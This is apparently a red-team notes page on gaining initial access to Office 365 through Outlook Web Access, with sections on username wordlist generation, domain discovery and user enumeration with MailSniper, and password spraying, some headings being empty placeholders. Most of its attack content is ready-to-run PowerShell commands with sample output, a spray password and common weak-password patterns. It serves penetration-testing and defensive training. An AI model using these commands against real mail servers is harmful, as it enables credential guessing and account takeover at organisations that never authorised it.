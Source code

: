 

### Office 365





### People

(TODO Include Mindmap screenshot here or organization).

## Initial Compromise

### OWA Password Spraying

Far from the best method of gaining access these days. All eyes are you from the SOC when performing these attacks. That said, password spraying incidents cause massive bloat in alerts for blue team. Some orgs may decide to exclude this activity entirely as they have measures in place to mitigate activity. Account lockouts, Conditional Access Policy (CAP), etc.

#### Generate username wordlist

There are many wordlist generators out there for usernames. Will not name them.

* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ~/namemash.py users.txt > usernames.txt
  </strong></code></pre>

#### Determine valid domain

Choosing a tool comes down to preference, we'll use [MailSniper](https://github.com/dafthack/MailSniper) to determine a valid domain for OWA.

* <pre class="language-powershell"><code class="lang-powershell"><strong>PS C:\Users\PaulBlart\> ipmo C:\Tools\MailSniper\MailSniper.ps1
  </strong><strong>
  </strong>PS C:\Users\PaulBlart> Invoke-DomainHarvestOWA -ExchHostname mail.rotta.dev
  [*] Harvesting domain name from the server at mail.rotta.dev
  The domain appears to be: CYBER or rotta.dev
  </code></pre>

#### Find Valid Usernames Password

Authentications on valid usernames take a little longer to process then invalid usernames, from this we can determine if a username in our wordlist is valid or is invalid.

* ```powershell
  PS C:\Users\PaulBlart> Invoke-UsernameHarvestOWA -ExchHostname mail.rotta.dev -Domain rotta.dev -UserList .\Desktop\usernames.txt 
  -OutFile .\Desktop\valid_usernames.txt

  [*] Now spraying the OWA portal at https://199.32.90.122/owa/
  ```

#### Spray Passwords

If we decide to do this attack, it's best to take our time with this (depending on engagement timeframe). We are unable as red-teamers to determine account lockout configurations without access to the domain.

* [ ] `Patterns such as`` `**`MonthYear`**` ``(August2019),`` `**`SeasonYear`**` ``(Summer2019) and`` `**`DayDate`**` ``(Tuesday6)`
* ```powershell
  PS C:\Users\PaulBlart> Invoke-PasswordSprayOWA -ExchHostname mail.rotta.dev -UserList 
  .\Desktop\valid_usernames.txt -Password FoxyLady123!
  ```
